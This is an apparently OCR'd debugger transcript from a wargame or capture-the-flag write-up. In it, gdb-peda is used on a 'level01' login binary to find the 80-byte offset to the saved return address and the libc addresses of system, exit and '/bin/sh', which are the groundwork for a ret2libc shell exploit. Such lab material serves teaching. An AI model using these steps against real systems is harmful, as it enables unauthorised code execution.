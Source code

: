 ```gdb
Breakpoint 1 at 0x8048574
gdb-peda$ run
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
[----------------------------------registers-----------------------------------]
EAX: 0xffffd6bc --> 0x0
EBX: 0xffffd6bc --> 0x0
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0xffffd6fc --> 0x0
EBP: 0xffffd708 --> 0x0
ESP: 0xffffd6a0 --> 0xffffd6bc --> 0x0
EIP: 0x8048574 (<main+164>:     call   0x8048370 <fgets@plt>)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x8048565 <main+149>:        mov    DWORD PTR [esp+0x4],0x64
0x804856d <main+157>:        lea    eax,[esp+0x1c]
0x8048571 <main+161>:        mov    DWORD PTR [esp],eax
=> 0x8048574 <main+164>:     call   0x8048370 <fgets@plt>
0x8048579 <main+169>:        lea    eax,[esp+0x1c]
0x804857d <main+173>:        mov    DWORD PTR [esp],eax
0x8048580 <main+176>:        call   0x80484a3 <verify_user_pass>
0x8048585 <main+181>:        mov    DWORD PTR [esp+0x5c],eax
Guessed arguments:
arg[0]: 0xffffd6bc --> 0x0
arg[1]: 0x64 ('d')
arg[2]: 0xf7fcfac0 --> 0xfbad2288
[------------------------------------stack-------------------------------------]
0000| 0xffffd6a0 --> 0xffffd6bc --> 0x0
0004| 0xffffd6a4 --> 0x64 ('d')
0008| 0xffffd6a8 --> 0xf7fcfac0 --> 0xfbad2288
0012| 0xffffd6ac --> 0x1
0016| 0xffffd6b0 --> 0xffffd8cb ("/home/users/level01/level01")
0020| 0xffffd6b4 --> 0x2f ('/')
0024| 0xffffd6b8 --> 0xffffd70c --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
0028| 0xffffd6bc --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048574 in main ()
gdb-peda$ info frame
Stack level 0, frame at 0xffffd710:
eip = 0x8048574 in main; saved eip 0xf7e45513
called by frame at 0xffffd780
Arglist at 0xffffd708, args:
Locals at 0xffffd708, Previous frame's sp is 0xffffd710
Saved registers:
ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
gdb-peda$ p/d 0xffffd70c-0xffffd6bc
$1 = 80
gdb-peda$ print system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```